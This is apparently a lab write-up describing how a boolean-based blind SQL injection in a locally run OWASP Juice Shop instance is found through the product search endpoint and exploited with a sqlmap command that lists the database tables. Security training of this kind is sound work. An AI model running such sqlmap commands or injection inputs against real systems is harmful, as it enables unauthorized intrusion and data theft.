 # 🔓 SQL Injection Lab – OWASP Juice Shop

This lab demonstrates how to discover and exploit a **boolean-based blind SQL injection** vulnerability in OWASP Juice Shop using `sqlmap`.

---

## 🛠️ Lab Environment

- **Target:** OWASP Juice Shop (Docker)
- **Attacker:** Kali Linux VM
- **Tools Used:** Docker, Firefox Dev Tools, SQLMap

---

## 🚀 Steps Performed

### 1. Started Juice Shop
bash

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

Juice Shop accessible at: http://localhost:3000

### 2. Found SQLi Vulnerability
Searched for a product in the Juice Shop search bar using '

Captured the backend request:

sql
GET /rest/products/search?q=
Used Firefox Dev Tools → “Copy as cURL” → converted into raw HTTP request (juice-request.txt)
---
## 3. Ran SQLMap

sqlmap -r juice-request.txt --batch --tables
✅ Backend DBMS: SQLite
✅ SQL Injection Type: Boolean-based blind
✅ 20 database tables retrieved



